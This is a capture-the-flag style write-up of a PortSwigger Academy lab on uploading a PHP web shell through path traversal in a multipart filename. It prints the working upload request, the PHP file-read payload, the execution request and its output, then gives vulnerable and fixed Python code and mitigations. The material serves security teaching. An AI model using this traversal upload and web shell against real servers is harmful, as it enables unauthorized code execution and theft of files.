


# Lab 03: Web Shell Upload via Path Traversal

> **Topic**: File Upload Vulnerabilities
> **Lab Number**: 03
> **Platform**: PortSwigger Web Security Academy

## Category
File Upload — Path Traversal in Filename to Escape Upload Directory

## Vulnerability Summary
The application's avatar upload feature strips or blocks dangerous file extensions, preventing direct upload of `.php` files into the web-accessible upload directory. However, the server fails to sanitize the `filename` parameter in the `Content-Disposition` header. By supplying a path-traversal sequence in the filename (e.g., `../exploit.php`), the uploaded file is written one directory level above the intended upload folder — into a directory where PHP execution is enabled. Requesting the file from its traversed location causes the server to execute the PHP payload and return the contents of `/home/carlos/secret`.

## Attack Methodology

### Step 1: Identify the Upload Endpoint
Logged in as `wiener` and navigated to **My Account**. The avatar upload form POSTs a multipart request. Intercepted in Burp Suite and sent to Repeater.

### Step 2: Attempt Direct PHP Upload (Blocked)
Uploaded `exploit.php` with a PHP payload directly into the avatars directory. The server either blocked the extension or stored the file but served it as plain text (not executed) due to directory-level PHP restrictions on `/files/avatars/`.

### Step 3: Path Traversal via filename Parameter
Modified the `filename` field in the `Content-Disposition` header to include a traversal sequence, targeting the parent directory `/files/` where PHP execution is permitted:

```http
POST /my-account/avatar HTTP/2
Host: 0ac4008003ba832681d06b2700610095.web-security-academy.net
Cookie: session=26SjrCFdzEipVJQSv3x6YUlVgujHCtQp
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXxXxXxXx

------WebKitFormBoundaryXxXxXxXx
Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
Content-Type: image/jpeg

<?php echo file_get_contents('/home/carlos/secret'); ?>

------WebKitFormBoundaryXxXxXxXx
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryXxXxXxXx
Content-Disposition: form-data; name="csrf"

<csrf_token>
------WebKitFormBoundaryXxXxXxXx--
```

The server accepted the upload and wrote the file to `/files/exploit.php` (one level above `/files/avatars/`).

### Step 4: Execute the Web Shell
Sent a GET request directly to the traversed file path:

```http
GET /files/exploit.php HTTP/2
Host: 0ac4008003ba832681d06b2700610095.web-security-academy.net
Cookie: session=26SjrCFdzEipVJQSv3x6YUlVgujHCtQp
```

Response:

```http
HTTP/2 200 OK
Content-Type: text/html; charset=UTF-8
Content-Length: 32

CrYlSgpw5GcP3ZUHFNo9pmNXjM8Yx6iu
```

The PHP was executed and returned the secret. Lab solved.





## Technical Root Cause

### Vulnerable Code (Unsanitized filename)
```python
import os

UPLOAD_DIR = '/var/www/files/avatars/'

def upload_avatar(request):
    file = request.FILES['avatar']
    filename = file.name  # taken directly from Content-Disposition filename parameter

    save_path = os.path.join(UPLOAD_DIR, filename)
    # os.path.join with '../exploit.php' resolves to '/var/www/files/exploit.php'
    with open(save_path, 'wb') as f:
        f.write(file.read())
    return HttpResponse(f'The file avatars/{filename} has been uploaded.')
```

`os.path.join('/var/www/files/avatars/', '../exploit.php')` resolves to `/var/www/files/exploit.php` — outside the intended directory, in a location where Apache executes PHP.

### Secure Code (Basename sanitization + realpath check)
```python
import os

UPLOAD_DIR = '/var/www/files/avatars/'

def upload_avatar(request):
    file = request.FILES['avatar']
    # Strip any directory components from the filename
    filename = os.path.basename(file.name)

    save_path = os.path.realpath(os.path.join(UPLOAD_DIR, filename))
    # Ensure the resolved path is still inside the intended directory
    if not save_path.startswith(os.path.realpath(UPLOAD_DIR)):
        return HttpResponseForbidden('Invalid filename')

    with open(save_path, 'wb') as f:
        f.write(file.read())
    return HttpResponse('Upload successful')
```

## Impact
- **PHP Execution Outside Upload Directory**: The traversal places the shell in `/files/` where the server executes PHP, bypassing any per-directory execution restrictions on `/files/avatars/`
- **Arbitrary File Read / RCE**: The executed shell can read sensitive files or be extended to a full reverse shell
- **Bypass of Extension-Based Defences**: Even if the upload directory has `php_flag engine off`, path traversal renders that control ineffective

**Severity: Critical**

## Proof of Concept

**Step 1 — Upload with traversal in filename:**
```
POST /my-account/avatar HTTP/2
Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
Content-Type: image/jpeg

<?php echo file_get_contents('/home/carlos/secret'); ?>
```

**Step 2 — Execute from traversed location:**
```
GET /files/exploit.php HTTP/2
```

Response body: secret value.

## Key Takeaways
1. **Never Trust the `filename` Parameter**: The `filename` in `Content-Disposition` is fully attacker-controlled. It can contain `../`, absolute paths, null bytes, or URL-encoded variants. Always sanitize it before constructing a file path.
2. **Use `os.path.basename()` and a `realpath` Jail Check**: Strip directory components with `basename`, then resolve the full path with `realpath` and assert it starts with the intended upload directory. This defeats all traversal variants including `....//` and URL-encoded sequences.
3. **Per-Directory PHP Restrictions Are Not Sufficient Alone**: Disabling PHP execution in the upload directory is a good defence-in-depth measure, but it fails if the filename can escape that directory. Both controls are needed.
4. **Rename Uploaded Files Server-Side**: Generating a UUID-based filename server-side eliminates the attacker's ability to influence the stored path entirely.

## Mitigation

### 1. Sanitize Filename
```python
filename = os.path.basename(file.name)  # removes any path components
```

### 2. Realpath Jail Check
```python
resolved = os.path.realpath(os.path.join(UPLOAD_DIR, filename))
assert resolved.startswith(os.path.realpath(UPLOAD_DIR) + os.sep)
```

### 3. Rename to UUID
```python
import uuid
safe_name = str(uuid.uuid4()) + '.jpg'
```

### 4. Disable Execution in Upload Directory (Apache)
```apache
<Directory /var/www/files/avatars>
    php_flag engine off
</Directory>
```

## References
- [PortSwigger — Web Shell Upload via Path Traversal](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal)
- [PortSwigger — File Upload Vulnerabilities](https://portswigger.net/web-security/file-upload)
- [OWASP — Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
- [CWE-22: Improper Limitation of a Pathname to a Restricted Directory](https://cwe.mitre.org/data/definitions/22.html)
- [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater)
- Chromium

---

*Lab completed on: 2026-05-13*  
*Writeup by vibhxr*
